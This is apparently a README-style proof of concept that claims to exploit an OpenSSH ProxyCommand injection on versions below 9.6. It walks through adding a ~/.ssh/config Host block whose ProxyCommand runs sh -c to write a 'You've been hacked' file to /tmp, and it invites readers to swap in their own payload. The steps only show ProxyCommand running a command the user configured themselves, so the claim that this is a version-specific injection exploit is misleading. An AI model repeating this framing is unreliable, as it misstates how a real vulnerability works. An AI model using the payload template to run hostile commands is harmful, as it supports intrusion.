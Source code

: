### Objective

1. Exploit OpenSSH's ProxyCommand injection to:

2. Create a file (e.g., /tmp/pwned.txt)

3. Insert custom content into it (e.g., You’ve been hacked via ProxyCommand)

### Prerequisites
1. Any linux based system with OpenSSH version < 9.6
2. Access to the system via SSH (Credentialed)

### Procedure
1. Check for the OpenSSH version with:
   ```
   ssh -V
   ```
2. Check for config file in:
    ```
   .ssh folder
   ls -lah ~/.ssh
   ```
3. If config file is available, skip to 4. Else, please create one with:
   ```
   mkdir -p ~/.ssh
   cp ~/.ssh/config ~/.ssh/config.bak 2>/dev/null
   touch ~/.ssh/config
   ```
4. Edit the config file using:
   ```
   nano ~/.ssh/config
   ```
5. Insert the following block:
   ```
   Host pwned-target
    HostName 127.0.0.1
    ProxyCommand sh -c 'echo "You’ve been hacked via ProxyCommand" > /tmp/pwned.txt'
   ```
      Here, the __pwned-target__ can be any name you want.
      IP address can be any IP.  It's just a __placeholder__. The payload execution happens before that address is even contacted.
6. Now close the nano by saving it using:
   ```
   ctrl+o
   ```
   ```
   ctrl+x
   ```
7. In the terminal run:
   ```
   ssh pwned-target
   ```
     Here __pwned-target__ is the Host we set in the config file which will trigger the proxy command
   ```
   'echo "You’ve been hacked via ProxyCommand" > /tmp/pwned.txt'
   ```
   by creating a file __pwned.txt__ in the __/tmp__ folder.
9. To validate the exploit being run successfully, you can check it via:
   ```
   cd /tmp
   ls -lah
   cat pwned.txt
   ```  
10. You can change the payload section ```ProxyCommand```.
If you like this PoC, please share it and follow me on twitter @[saarcastified](https://x.com/saarcastified)
